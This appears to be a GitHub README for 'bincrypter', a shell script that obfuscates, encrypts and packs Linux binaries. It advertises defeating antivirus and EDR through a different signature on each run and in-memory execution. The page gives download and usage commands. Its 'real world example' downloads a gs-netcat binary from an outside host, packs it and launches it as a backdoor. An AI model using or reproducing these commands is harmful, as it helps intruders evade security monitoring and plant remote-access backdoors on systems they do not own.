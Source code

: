 
## A shell script for Linux that obfuscates + encrypts + packs any binary.

- Obfuscates any ELF binary or script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary
- Resulting binary is heavily obfuscated (`string` shows garbage)
- Living off the Land: /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm7, mips, ...

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Usage:
```shell
cp /usr/bin/id id
./bincrypter.sh id
Compressed: 68552 --> 24176 [35%]

./id
uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
Compressed: 68552 --> 23860 [34%]

./id
Enter Password: foobar
uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m) | ./bincrypter.sh - >gsnc
chmod +x gsnc
GS_ARGS="-ilD -s ChangeMe" ./gsnc
```



